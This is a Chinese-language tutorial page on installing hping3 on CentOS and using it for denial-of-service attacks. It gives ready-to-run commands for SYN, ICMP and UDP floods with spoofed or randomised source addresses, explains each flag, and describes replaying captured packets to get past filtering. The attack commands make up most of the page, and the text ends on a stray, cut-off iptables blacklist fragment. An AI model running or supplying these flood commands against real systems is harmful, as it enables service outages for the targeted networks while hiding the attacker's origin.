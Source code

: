 


## centos 
```
yum install -y yum-plugin-priorities
yum install -y http://ftp-srv2.kddilabs.jp/Linux/distributions/fedora/epel/6/x86_64/epel-release-6-8.noarch.rpm
yum install -y hping3
```


## DoS***方法（hping3）
实验

1、DOS with random source IP

root@kali:~# hping3 -c 10000 -d 120 -S -w 64 -p 21 --flood --rand-source www.hping3testsite.com

参数含义：:
hping= 应用名称.
-c 100000 =packets 发送的数量.
-d 120 = packet的大小.
-S = 只发送SYN packets.
-w 64 = TCP window的大小.
-p 21 = Destination port (21 being FTP port). 可以使用任意端口.
--flood = Sending packets as fast as possible, 不显示回应. Flood mode.
--rand-source = 使用随机的Source IP Addresses. 或者使用 -a or spoof to hide hostnames.
www.hping3testsite.com = Destination IP address or target machines IP address. 或者使用 一个网址 In my case resolves to 127.0.0.1 (as entered in /etc/hosts file)



2、ICMP flood
ICMP的泛洪***是在最小时间内发送最大的ICMP数据到目标机，例如使用ping指令。在"旧"时代它使用一个巨大的ping（死亡之ping）是可能破坏机器，希望这些时间已经过去，但它仍有可能***任何机器的带宽和处理时间，如果接受到这种ICMP数据包。
ICMP flood using hping 3 :
hping3 -q -n -a 10.0.0.1 --id 0 --icmp -d 56 --flood 192.168.0.2

-q 表示quiet, -n 表示无 name resolving, id 0 表示有ICMP echo request (ping)
-d i表示包的大小 (56 is the normal size for a ping).
某些系统配置中自动地丢弃这种通过hping生成的头部设定不正确的ICMP包（例如不可能设置带顺序的ID）。在这种情况下，您可以使用Wireshark嗅探正常的ICMP回显请求报文，将其保存为二进制文件，并使用hping3重播。

Example:
hping3 -q -n --rawip -a 10.0.0.1 --ipproto 1 --file "./icmp_echo_request.bin" -d 64 --flood 192.168.0.2




3、UDP flood
这是相同的概念ICMP泛洪除非你发送大量的UDP数据。 UDP泛洪对网络带宽非常危险的。
Generating UDP flood:
hping3 -q -n -a 10.0.0.1 --udp -s 53 --keep -p 68 --flood 192.168.0.2
对于UDP，你必须精确的知道源和目的端口，这里我选择了DNS和BOOTPC（的dhclient）端口。该BOOTPC（68）端口经常在个人电脑开着，因为大多数人使用DHCP来自己连接到网络。
ame blacklist_180 --set -m comment --comment"Blacklist source IP" -j DROP
